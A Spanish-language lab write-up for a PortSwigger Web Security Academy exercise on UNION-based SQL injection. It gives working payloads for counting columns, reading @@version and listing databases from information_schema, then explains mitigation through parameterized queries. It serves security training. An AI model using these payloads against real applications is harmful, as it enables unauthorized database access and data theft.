



# Lab: SQL Injection Attack – Querying the Database Type and Version (MySQL & Microsoft)

Este laboratorio de **PortSwigger Web Security Academy** contiene una vulnerabilidad de **SQL Injection** en el filtro de productos por categoría.

El objetivo del laboratorio es **obtener la versión del sistema de base de datos** utilizando una técnica de **UNION-based SQL Injection**.

---

# 🎯 Objetivo del laboratorio

La aplicación permite filtrar productos por categoría mediante un parámetro en la URL.

El objetivo es:

* identificar el número de columnas de la consulta
* utilizar `UNION SELECT`
* recuperar la **versión de la base de datos**

---

# 🌐 Punto de entrada

El parámetro vulnerable es:

```
category
```

Ejemplo de solicitud normal:

```
/filter?category=Gifts
```

La aplicación probablemente ejecuta una consulta similar a la siguiente:

```sql
SELECT name, description
FROM products
WHERE category = 'Gifts';
```

Debido a que el valor del parámetro se inserta directamente dentro de la consulta SQL, es posible modificarla mediante **SQL Injection**.

---

# 🔎 Identificación del número de columnas

Antes de utilizar `UNION SELECT`, es necesario determinar **cuántas columnas devuelve la consulta original**.

Para ello se puede utilizar el siguiente payload:

```
' ORDER BY 2-- -
```



Si los valores aparecen reflejados en la página o no presenta algun error, significa que:

* la consulta devuelve **2 columnas**
* ambas columnas aceptan **datos de tipo texto**

---

# 💥 SQL Injection con `UNION SELECT`

Una vez identificado el número de columnas, se puede inyectar una segunda consulta utilizando `UNION`.

### Payload utilizado

```
' UNION SELECT '1', @@version -- -
```

---

# Explicación del payload

## Cierre de la cadena

El carácter:

```sql
'
```

cierra la cadena utilizada en la consulta original.

---

## Uso de `UNION SELECT`

La cláusula:

```sql
UNION SELECT
```

permite combinar el resultado de la consulta original con otra consulta controlada por el atacante.

Para que funcione correctamente:

* ambas consultas deben devolver **el mismo número de columnas**
* los **tipos de datos deben ser compatibles**

---

## Variable del sistema `@@version`

En bases de datos como:

* **MySQL**
* **Microsoft SQL Server**

la variable del sistema:

```sql
@@version
```

contiene información sobre la versión del motor de base de datos.

Ejemplo de resultado:

```
8.0.42-0ubuntu0.20.04.1
```
---

# 📊 Resultado observado

La aplicación muestra en la página la versión del sistema de base de datos.

Ejemplo observado:

```
8.0.42-0ubuntu0.20.04.1
```

Esto confirma que:

* la aplicación es vulnerable a **SQL Injection**
* es posible ejecutar consultas adicionales
* se puede obtener información interna del sistema

---

# 🧠 Enumeración de bases de datos

Una vez confirmada la vulnerabilidad, es posible enumerar las bases de datos existentes utilizando `information_schema`.

### Payload utilizado

```sql
' UNION SELECT 1, schema_name FROM information_schema.schemata-- -
``` 

---

# Explicación del payload

## Uso de `information_schema`

La base de datos especial:

```sql
information_schema
```

contiene **metadatos del servidor**.

Estos incluyen información sobre:

* bases de datos
* tablas
* columnas
* permisos
* estructuras internas

---

## Tabla `schemata`

Dentro de `information_schema` existe la tabla:

```sql
information_schema.schemata
```

Esta tabla contiene información sobre **todas las bases de datos presentes en el servidor**.

La columna utilizada es:

```sql
schema_name
```

---

# Consulta resultante

```sql
SELECT name, description
FROM products
WHERE category = 'Lifestyle'
UNION SELECT 1, schema_name
FROM information_schema.schemata-- -';
```

---

# 📊 Resultado observado

La aplicación devuelve los nombres de las bases de datos presentes en el servidor.

Ejemplo:

```
information_schema
mysql
performance_schema
app_database
```

Esto permite al atacante identificar:

* qué bases de datos existen
* cuál podría contener datos de la aplicación
* qué estructuras pueden explorarse posteriormente

---

# 🔐 Impacto de la vulnerabilidad

Una vulnerabilidad de **SQL Injection** puede permitir a un atacante:

* obtener información interna del sistema
* enumerar bases de datos, tablas y columnas
* extraer datos sensibles
* comprometer completamente la base de datos

---

# 🛡️ Mitigación

Para prevenir este tipo de vulnerabilidades se recomienda:

* utilizar **consultas parametrizadas**
* implementar **Prepared Statements**
* validar y sanitizar las entradas del usuario
* utilizar **ORM seguros**
* aplicar el principio de **mínimo privilegio en la base de datos**

---

# ✅ Conclusión

Este laboratorio demuestra cómo una vulnerabilidad de **SQL Injection basada en UNION** puede ser utilizada para obtener información crítica del sistema de base de datos.

Mediante el uso de:

* `UNION SELECT`
* variables del sistema como `@@version`
* metadatos de `information_schema`

es posible identificar el motor de base de datos y comenzar un proceso de **enumeración de la estructura interna del sistema**.

